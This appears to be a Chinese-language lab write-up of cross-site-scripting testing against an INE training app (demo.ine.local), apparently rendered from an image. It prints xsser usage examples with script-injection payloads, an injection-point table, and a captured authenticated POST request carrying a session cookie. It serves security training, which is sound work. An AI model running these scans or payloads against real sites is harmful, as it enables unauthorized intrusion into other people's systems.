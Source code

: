 ```
http://demo.ine.local/index.php?page=upload-file.php
http://demo.ine.local/index.php?page=user-agent-impersonation.php
http://demo.ine.local/index.php?page=user-info.php
http://demo.ine.local/index.php?page=user-info-xpath.php
http://demo.ine.local/index.php?page=user-poll.php
http://demo.ine.local/index.php?page=view-someones-blog.php
```

xsser的使用实例：
```
-------------------------

[Info] This is because you aren't providing:

 At least one -payloader- using a keyword: 'XSS' (for hex.hash) or 'X1S' (for int.hash):

  - ex (GET): xsser -u 'https://target.com' -g '/path/profile.php?username=bob&surname=XSS&age=X1S&job=XSS'
  - ex (POST): xsser -u 'https://target.com/login.php' -p 'username=bob&password=XSS&captcha=X1S'

 Any extra attack(s) (Xsa, Xsr, Coo, Dorker, Crawler...):

  - ex (GET+Cookie): xsser -u 'https://target.com' -g '/path/id.php?=2' --Coo
  - ex (POST+XSA+XSR+Cookie): xsser -u 'https://target.com/login.php' -p 'username=admin&password=admin' --Xsa --Xsr --Coo
  - ex (Dorker): xsser -d 'news.php?id=' --Da
  - ex (Crawler): xsser -u 'https://target.com' -c 100 --Cl

 Or a mixture:

  - ex (GET+Manual): xsser -u 'https://target.com' -g '/users/profile.php?user=XSS&salary=X1S' --payload='<script>alert(XSS);</script>'
  - ex (POST+Manual): xsser -u 'https://target.com/login.asp' -p 'username=bob&password=XSS' --payload='}}%%&//<sc&ri/pt>(XSS)--;>'

  - ex (GET+Cookie): xsser -u 'https://target.com' -g '/login.asp?user=bob&password=XSS' --Coo
  - ex (POST+XSR+XSA): xsser -u 'https://target.com/login.asp' -p 'username=bob&password=XSS' --Xsr --Xsa

===========================================================================
```
针对每个链接，使用不同的参数：
|Page|Injection point|
|---|---|
|`http://demo.ine.local/index.php?page=add-to-your-blog.php`|Cross site scripting on blog entry, Cross site scripting on logged in user name|

我们使用admin, adminpass登录之后：
```
POST /index.php?page=add-to-your-blog.php HTTP/1.1
Host: demo.ine.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 84
Origin: http://demo.ine.local
Connection: close
Referer: http://demo.ine.local/index.php?page=add-to-your-blog.php
Cookie: PHPSESSID=4k9chfj9u63ttknssr9kb7qhi7; showhints=1; username=admin; uid=1
Upgrade-Insecure-Requests: 1

csrf-token=&blog_entry=Kali+Linux&add-to-your-blog-php-submit-button=Save+Blog+Entry
```
